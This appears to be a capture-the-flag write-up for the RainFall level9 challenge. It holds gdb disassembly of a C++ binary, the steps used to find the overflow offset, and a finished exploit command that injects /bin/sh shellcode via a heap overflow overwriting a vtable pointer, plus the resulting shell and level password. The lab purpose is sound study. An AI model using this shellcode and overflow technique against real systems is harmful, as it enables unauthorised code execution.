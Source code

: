 
## ideas
ltrace ./level9 $(python -c "print 'a' * 104 + '\xf4\x85\x04\x08'")

info var
(gdb) i var
All defined variables:
Non-debugging symbols:
0x08048840  vtable for N
0x08048850  typeinfo name for N
0x08048854  typeinfo for N


info function
0x080486f6  N::N(int)
0x0804870e  N::setAnnotation(char*)
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)

➜  RainFall git:(main) ✗ c++filt  _Znwj (to demangle a C++ name)
operator new(unsigned int)


Dump of assembler code for function main:
   0x080485f4 <+0>:	   push   ebp
   0x080485f5 <+1>:	   mov    ebp,esp
   0x080485f7 <+3>:	   push   ebx
   0x080485f8 <+4>:	   and    esp,0xfffffff0
   0x080485fb <+7>:	   sub    esp,0x20
   0x080485fe <+10>:	   cmp    DWORD PTR [ebp+0x8],0x1         ; compare argc to 1
   0x08048602 <+14>:	   jg     0x8048610 <main+28>             ; if (argc > 1), go to main+28
   0x08048604 <+16>:	   mov    DWORD PTR [esp],0x1             ; move 1 to esp
   0x0804860b <+23>:	   call   0x80484f0 <_exit@plt>           ; _exit(1)
   0x08048610 <+28>:	   mov    DWORD PTR [esp],0x6c            ; move 108 to esp
   0x08048617 <+35>:	   call   0x8048530 <_Znwj@plt>           ; _Znwj(108); (?) new(108)
   0x0804861c <+40>:	   mov    ebx,eax                         ; move return value to ebx: seems to be a pointer to a zeroed memory space, maybe 108bytes long? address : 0x804a008
   0x0804861e <+42>:	   mov    DWORD PTR [esp+0x4],0x5         ; move 5 to esp + 4
   0x08048626 <+50>:	   mov    DWORD PTR [esp],ebx             ; move ebx to esp
   0x08048629 <+53>:	   call   0x80486f6 <_ZN1NC2Ei>           ; _ZN1Nc2Ei(ebx, 5) / N::N(int) -> new N(5)
   0x0804862e <+58>:	   mov    DWORD PTR [esp+0x1c],ebx        ; move ebx to esp+28
   0x08048632 <+62>:	   mov    DWORD PTR [esp],0x6c            ;  put 108 to esp
   0x08048639 <+69>:	   call   0x8048530 <_Znwj@plt>           ; _Znwj(108); call to new
   0x0804863e <+74>:	   mov    ebx,eax                         ; move return value to ebx, points to address 0x804a078
   0x08048640 <+76>:	   mov    DWORD PTR [esp+0x4],0x6         ; move 6 to esp+4
   0x08048648 <+84>:	   mov    DWORD PTR [esp],ebx             ; move ebx to esp
   0x0804864b <+87>:	   call   0x80486f6 <_ZN1NC2Ei>           ; _ZN1NC2Ei(ebx, 6) / N::N(int) -> new N(6)
   0x08048650 <+92>:	   mov    DWORD PTR [esp+0x18],ebx        ; move ebx to esp + 24
   0x08048654 <+96>:	   mov    eax,DWORD PTR [esp+0x1c]        ; move exp + 28 to eax
   0x08048658 <+100>:	mov    DWORD PTR [esp+0x14],eax        ; move eax to exp + 20 
   0x0804865c <+104>:	mov    eax,DWORD PTR [esp+0x18]        ; move esp + 24 to eax
   0x08048660 <+108>:	mov    DWORD PTR [esp+0x10],eax        ; move eax to esp + 16
   0x08048664 <+112>:	mov    eax,DWORD PTR [ebp+0xc]         ; move esp + 12 to eax
   0x08048667 <+115>:	add    eax,0x4                         ; eax += 4
   0x0804866a <+118>:	mov    eax,DWORD PTR [eax]             ; move the dereference of eax to eax
   0x0804866c <+120>:	mov    DWORD PTR [esp+0x4],eax         ; move eax to esp + 04
   0x08048670 <+124>:	mov    eax,DWORD PTR [esp+0x14]        ; move esp + 20 to eax
   0x08048674 <+128>:	mov    DWORD PTR [esp],eax             ; move eax to esp
   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc> _ZN1N13setAnnotationEPc(esp+20, esp + 16) / N::setAnnotation(char*)
   0x0804867c <+136>:	mov    eax,DWORD PTR [esp+0x10]        ; move esp + 16 to eax
   0x08048680 <+140>:	mov    eax,DWORD PTR [eax]             ; move value in [eax] to eax
   0x08048682 <+142>:	mov    edx,DWORD PTR [eax]             ; move value in eax to edx   ---> This is where we segfault
   0x08048684 <+144>:	mov    eax,DWORD PTR [esp+0x14]        ; move esp + 20 to eax
   0x08048688 <+148>:	mov    DWORD PTR [esp+0x4],eax         ; move eax to esp + 4
   0x0804868c <+152>:	mov    eax,DWORD PTR [esp+0x10]        ; move esp + 16 to eax
   0x08048690 <+156>:	mov    DWORD PTR [esp],eax             ; move eax to esp
   0x08048693 <+159>:	call   edx                             ; call edx => edx is a pointer to a function
   0x08048695 <+161>:	mov    ebx,DWORD PTR [ebp-0x4]         ; move ebp - 4 to ebx
   0x08048698 <+164>:	leave  
   0x08048699 <+165>:	ret    

Dump of assembler code for function _Znwj@plt:
   0x08048530 <+0>:	jmp    DWORD PTR ds:0x8049b70             ; jump to function _Znwj@got.plt
   0x08048536 <+6>:	push   0x40
   0x0804853b <+11>:	jmp    0x80484a0


(gdb) disas _ZN1NC2Ei
Dump of assembler code for function _ZN1NC2Ei:
   0x080486f6 <+0>:	push   %ebp
   0x080486f7 <+1>:	mov    %esp,%ebp
   0x080486f9 <+3>:	mov    0x8(%ebp),%eax
   0x080486fc <+6>:	movl   $0x8048848,(%eax)
   0x08048702 <+12>:	mov    0x8(%ebp),%eax
   0x08048705 <+15>:	mov    0xc(%ebp),%edx
   0x08048708 <+18>:	mov    %edx,0x68(%eax)
   0x0804870b <+21>:	pop    %ebp
   0x0804870c <+22>:	ret    
End of assembler dump.

(gdb) disas _ZN1N13setAnnotationEPc
Dump of assembler code for function _ZN1N13setAnnotationEPc:
   0x0804870e <+0>:	push   %ebp
   0x0804870f <+1>:	mov    %esp,%ebp
   0x08048711 <+3>:	sub    $0x18,%esp
   0x08048714 <+6>:	mov    0xc(%ebp),%eax
   0x08048717 <+9>:	mov    %eax,(%esp)
   0x0804871a <+12>:	call   0x8048520 <strlen@plt>
   0x0804871f <+17>:	mov    0x8(%ebp),%edx
   0x08048722 <+20>:	add    $0x4,%edx
   0x08048725 <+23>:	mov    %eax,0x8(%esp)
   0x08048729 <+27>:	mov    0xc(%ebp),%eax
   0x0804872c <+30>:	mov    %eax,0x4(%esp)
   0x08048730 <+34>:	mov    %edx,(%esp)
   0x08048733 <+37>:	call   0x8048510 <memcpy@plt>
   0x08048738 <+42>:	leave  
   0x08048739 <+43>:	ret    
End of assembler dump.

0x0804873a  N::operator+(N&)
(gdb) disas 0x0804873a
Dump of assembler code for function _ZN1NplERS_:
   0x0804873a <+0>:	push   %ebp
   0x0804873b <+1>:	mov    %esp,%ebp
   0x0804873d <+3>:	mov    0x8(%ebp),%eax
   0x08048740 <+6>:	mov    0x68(%eax),%edx
   0x08048743 <+9>:	mov    0xc(%ebp),%eax
   0x08048746 <+12>:	mov    0x68(%eax),%eax
   0x08048749 <+15>:	add    %edx,%eax
   0x0804874b <+17>:	pop    %ebp
   0x0804874c <+18>:	ret    
End of assembler dump.

0x0804874e  N::operator-(N&)
(gdb) disas 0x0804874e
Dump of assembler code for function _ZN1NmiERS_:
   0x0804874e <+0>:	push   %ebp
   0x0804874f <+1>:	mov    %esp,%ebp
   0x08048751 <+3>:	mov    0x8(%ebp),%eax
   0x08048754 <+6>:	mov    0x68(%eax),%edx
   0x08048757 <+9>:	mov    0xc(%ebp),%eax
   0x0804875a <+12>:	mov    0x68(%eax),%eax
   0x0804875d <+15>:	mov    %edx,%ecx
   0x0804875f <+17>:	sub    %eax,%ecx
   0x08048761 <+19>:	mov    %ecx,%eax
   0x08048763 <+21>:	pop    %ebp
   0x08048764 <+22>:	ret    
End of assembler dump.


(gdb) run
Starting program: /home/user/level9/level9 
[Inferior 1 (process 2657) exited with code 01]
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
Starting program: /home/user/level9/level9 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) info register
eax            0x41366441	1094083649
--> Overflow offset is at 108. (https://wiremask.eu/tools/buffer-overflow-pattern-generator/?)


Starting program: /home/user/level9/level9 $(python -c "print 'A' * 4 + 'B' * 104 + 'CCCC'")
Breakpoint 3, 0x0804867c in main ()
1: x/i $pc
=> 0x804867c <main+136>:	mov    0x10(%esp),%eax
(gdb) x/32wx $eax
0x804a00c:	0x41414141	0x42424242	0x42424242	0x42424242
0x804a01c:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a02c:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a03c:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a04c:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a05c:	0x42424242	0x42424242	0x42424242	0x42424242
0x804a06c:	0x42424242	0x42424242	0x42424242	0x43434343
0x804a07c:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) x/x 0x804a00c + 4
0x804a010:	0x42424242

The buffer starts at 0x804a00c

We need to write 108 chars to start overwriting
payload length 108 + 4 : shell_address (4) + shellcode (45) + padding (59) + buffer_address (4)

shell_address: 

shellcode: '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' - 45 chars

padding: 'A' * 55

buffer_address: '\x0c\xa0\x04\x08'

//////////////////////////////////////////////

./level9 $(python -c "print 'A' * 63 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' + '\x78\xa0\x04\x08'")
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
